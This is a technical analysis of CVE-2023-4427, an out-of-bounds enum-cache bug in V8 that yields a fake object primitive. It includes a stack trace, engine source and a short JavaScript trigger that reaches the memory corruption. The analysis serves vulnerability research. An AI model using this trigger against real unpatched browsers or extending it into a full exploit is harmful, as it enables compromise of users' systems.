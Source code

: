 # CVE-2023-4427 

## Description

Out of bounds access in enum cache leads to fake object primitive.

## Analysis

When running code like this:

```javascript
obj1 = {}
obj2 = {}
// [1]
obj2.a = 1
```

v8 will create a new map for `obj2` and add a new transition pointer
```c
[#0] 0x7ffff6933834 → v8::internal::MapUpdater::ConstructNewMap()()
[#1] 0x7ffff6931c3b → v8::internal::MapUpdater::ReconfigureToDataField(v8::internal::InternalIndex, v8::internal::PropertyAttributes, v8::internal::PropertyConstness, v8::internal::Representation, v8::internal::Handle<v8::internal::FieldType>)()
[#2] 0x7ffff694428b → v8::internal::(anonymous namespace)::UpdateDescriptorForValue(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Map>, v8::internal::InternalIndex, v8::internal::PropertyConstness, v8::internal::Handle<v8::internal::Object>)()
[#3] 0x7ffff69440c1 → v8::internal::Map::PrepareForDataProperty(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Map>, v8::internal::InternalIndex, v8::internal::PropertyConstness, v8::internal::Handle<v8::internal::Object>)()
[#4] 0x7ffff69244bc → v8::internal::LookupIterator::PrepareForDataProperty(v8::internal::Handle<v8::internal::Object>)()
[#5] 0x7ffff69b2fcf → v8::internal::Object::SetDataProperty(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>)()
[#6] 0x7ffff69b189c → v8::internal::Object::SetPropertyInternal(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::Maybe<v8::internal::ShouldThrow>, v8::internal::StoreOrigin, bool*)()
[#7] 0x7ffff69b1548 → v8::internal::Object::SetProperty(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::internal::StoreOrigin, v8::Maybe<v8::internal::ShouldThrow>)()
[#8] 0x7ffff64c5fc5 → v8::internal::StoreIC::Store(v8::internal::Handle<v8::internal::Object>, v8::internal::Handle<v8::internal::Name>, v8::internal::Handle<v8::internal::Object>, v8::internal::StoreOrigin)()
[#9] 0x7ffff64d19ee → v8::internal::__RT_impl_Runtime_StoreIC_Miss(v8::internal::Arguments<(v8::internal::ArgumentsType)0>, v8::internal::Isolate*)()
```

This will also update the descriptor for all affected maps on the transition chain
```cpp
// Installs |new_descriptors| over the current instance_descriptors to ensure
// proper sharing of descriptor arrays.
void Map::ReplaceDescriptors(Isolate* isolate,
                             Tagged<DescriptorArray> new_descriptors) {
  PtrComprCageBase cage_base(isolate);
  // Don't overwrite the empty descriptor array or initial map's descriptors.
  if (NumberOfOwnDescriptors() == 0 ||
      IsUndefined(GetBackPointer(cage_base), isolate)) {
    return;
  }

  Tagged<DescriptorArray> to_replace = instance_descriptors(cage_base);
  // Replace descriptors by new_descriptors in all maps that share it. The old
  // descriptors will not be trimmed in the mark-compactor, we need to mark
  // all its elements.
  Tagged<Map> current = *this;
#ifndef V8_DISABLE_WRITE_BARRIERS
  WriteBarrier::ForDescriptorArray(to_replace,
                                   to_replace->number_of_descriptors());
#endif
  while (current->instance_descriptors(cage_base) == to_replace) {
    Tagged<Map> next;
    if (!current->TryGetBackPointer(cage_base, &next)) {
      break;  // Stop overwriting at initial map.
    }
    current->SetEnumLength(kInvalidEnumCacheSentinel);
    current->UpdateDescriptors(isolate, new_descriptors,
                               current->NumberOfOwnDescriptors());
    current = next;
  }
  set_owns_descriptors(false);
}
```

However, this process will not create a new enum cache, so the enum cache of the descriptor will remind uninitialized. Considering code like

```javascript
const object1 = {};
object1.a = 1;
const object2 = {};
object2.a = 16705;
object2.b = 3;
const object3 = {};
object3.a = 4;
object3.b = 5;
object3.c = 6;

for (let key in object2) { } // Trigger the enum cache creation [1]

function trigger(callback) {
    for (let key in object2) {
        callback(object2[key]);
    }
}

trigger((value) => {
    object3.a = 1.1;    // Change the type of object3.a, update the map of object3 [2]
});

for (let key in object1) { } // Trigger the enum cache creation [3]
```

In [1] the enum cache is created, and the map of `object2` is updated. In [2] the map of `object3` is updated. In [3] the enum cache is created again with only one key. This enum cache will be shared between all maps since they hold the same descriptor. Thus when iterating over `object2` with for-in loop again there will be an out of bounds access in the enum cache.


